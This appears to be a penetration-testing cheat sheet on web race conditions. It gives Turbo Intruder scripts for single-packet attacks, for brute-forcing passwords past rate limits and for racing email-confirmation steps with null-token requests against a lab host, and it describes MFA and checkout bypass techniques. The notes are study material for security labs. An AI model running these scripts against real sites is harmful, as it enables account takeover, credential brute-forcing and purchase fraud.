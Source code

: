 # Race Conditions
## Limit overrun race condition
If site blocks multiple usaeg of same request (for example redeeming of gift card more then one time), we can possibly try to enter into "race window" during which site processes request. In such case we can send nosequent request with very small pause between requests or send multiple requests in same time. In such way we can create multiple requests during which first request is proceeded and before server starts to block it.  
With burp we can achieve this adding multiple requests in repeater into a group and sending it in parallel (using request sending options)

## Turbo Intruder race condition
Single-packet attack:
1. Ensure that target supports HTTP/2
2. Set the engine `engine=Engine.BURP2` and `concurrentConnections=1` configuration options for the request engine
3. When queueing your requests, group them by assigning them to a named gate using the `gate` argument for the `engine.queue()` method.
4. To send all of the requests in a given group, open the respective gate with the `engine.openGate()` method.

```
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                            concurrentConnections=1,
                            engine=Engine.BURP2
                            )
    
    # queue 20 requests in gate '1'
    for i in range(20):
        engine.queue(target.req, gate='1')
    
    # send all requests in gate '1' in parallel
    engine.openGate('1')
```

## Bypassing bruteforce rate limit
When we are sending invalid credentials sequently, we can have problem with rate limit (captcha solving or blocking of login attempts).  
We can solve this with race condition and Turbo Intruder, sending many passwords at one time.  
```
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           engine=Engine.BURP2
                           )
    passwords = wordlists.clipboard
    
    for password in passwords:
        engine.queue(target.req, password, gate='race1')

    engine.openGate('race1')


def handleResponse(req, interesting):
    table.add(req)

```
Here we are using password list from our clipboard.  

## Bypassing multi-step sequences
With race conditions we could be possibly able to bypass some mechanisms such as MFA, sending request to sensitive data BEFORE MFA is generated and checked.
```
POST /login
GET /admin
```
If we will send this requests quick enough, we could be potentially able to bypass MFA check which must arise right after login request.  

To check race conditions we can send group of requests in sequence (separate connections), then single-packet attack (parallel connections) and observe responses.  

## Multi-endpoint race conditions
We can potentially bypass basket confirmations in online shops if we will by something additionally during basket confirmation. So we have 1 item in basket and during order confirmation we are adding one more item and buying it together with first.  
Always try t oexploit race condition couple of times.  
Also try to send "warming" requests to another endpoints such as /home  
Also we can try to slow down the server sending multiple dummy hard requests to make race window bigger  

## Single-endpoint race condition
We can try to exploit update email or update password functionality with race condition. 
For example we can send request to change our e-mail to something available and in parallel send request to change our e-mail to one that is occupied by another user, cathing it's account. Or we can try to send request to update our password and in parallel send request to change another user's password.  

## Partial construction race conditions
This race condition appears when some objects initialized by server are initialized partially with null values (For example API key for user during registration could be null for small race window)  
In PHP and Ruby we are able to construct requests with null values like this: 
```
GET /api/user/info?user=victim&api-key[]= HTTP/2
```
So as example we can try to create user with unexisting email and skip confirmation stage when sending request to /confirm endpoint with null value
```

def queueRequests(target, wordlists):

    engine = RequestEngine(endpoint=target.endpoint,
                            concurrentConnections=1,
                            engine=Engine.BURP2
                            )
    
    confirmationReq = '''POST /confirm?token[]= HTTP/2
Host: YOUR-LAB-ID.web-security-academy.net
Cookie: phpsessionid=YOUR-SESSION-TOKEN
Content-Length: 0

'''
    for attempt in range(20):
        currentAttempt = str(attempt)
        username = 'User' + currentAttempt
    
        # queue a single registration request
        engine.queue(target.req, username, gate=currentAttempt)
        
        # queue 50 confirmation requests - note that this will probably sent in two separate packets
        for i in range(50):
            engine.queue(confirmationReq, gate=currentAttempt)
        
        # send all the queued requests for this attempt
        engine.openGate(currentAttempt)

def handleResponse(req, interesting):
    table.add(req)
```
